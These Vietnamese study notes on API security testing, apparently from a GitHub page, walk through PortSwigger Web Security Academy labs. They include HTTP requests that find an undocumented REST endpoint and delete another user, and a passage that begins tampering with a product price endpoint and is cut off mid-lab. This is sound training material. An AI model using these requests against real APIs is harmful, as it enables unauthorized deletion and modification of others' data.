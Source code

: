 #### Xác định API Endpoints
**Endpoint** là các **URL** mà **API** sử dụng để nhận yêu cầu.

```http
GET /api/books HTTP/1.1
Host: xnxx.com
```
- `/api/books` là **endpoint**.

### **Server-side Parameter Pollution**
Đây là một loại lỗ hổng xảy ra khi ứng dụng phía **server** chèn đầu vào từ người dùng vào yêu cầu nội bộ **(internal request)** gửi đến một **API** hoặc hệ thống khác mà không xử lý hoặc mã hóa đúng cách.

## Solve API Testing Lab
---
### Lab: Exploiting an API endpoint using documentation
- Login bằng account `wiener`
- Sử dụng chức năng **change email** => xuất hiện **endpoint** => Gửi đến **Repeater**

```http
PATCH /api/user/wiener HTTP/2
Host: 0a8a004104779f70802fdb6700e600e5.web-security-academy.net
...
{"email":"a@gmail.com"}
```
- Method **PATCH**: được dùng để cập nhật một phần tài nguyên trên **server**
- Xóa `wiener` ra khỏi **path** và gửi lại => `error`
- Tiếp tục xóa `user` ra khỏi **path** và gửi lại => status code `302`
- Thử sử dụng method **GET** với **endpoint** `/api` => trả về trang **REST API**
- Sử dụng **browser** để truy cập và xóa người dùng `carlos` thông qua **Verb DELETE** hoặc có thể gửi lại theo request sau

```http
DELETE /api/user/carlos HTTP/2
Host: 0a8a004104779f70802fdb6700e600e5.web-security-academy.net
```

### Lab: Finding and exploiting an unused API endpoint
- Login bằng account `wiener` => `nghèo kiết xác`
- Thêm `Lightweight "l33t" Leather Jacket` vào giỏ hàng => xuất hiện **endpoint** => Gửi đến **Repeater**

```http
GET /api/products/1/price HTTP/2
Host: 0aab006403c8d279809f856f00d500a6.web-security-academy.net
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 90

{"price":"$1337.00","message":"This item is in high demand - 11 purchased in the last 3h"}
```
- Số dư không đủ để mua
- Thay đổi method thành `POST`**(Chuột phải > Change Request method)** 
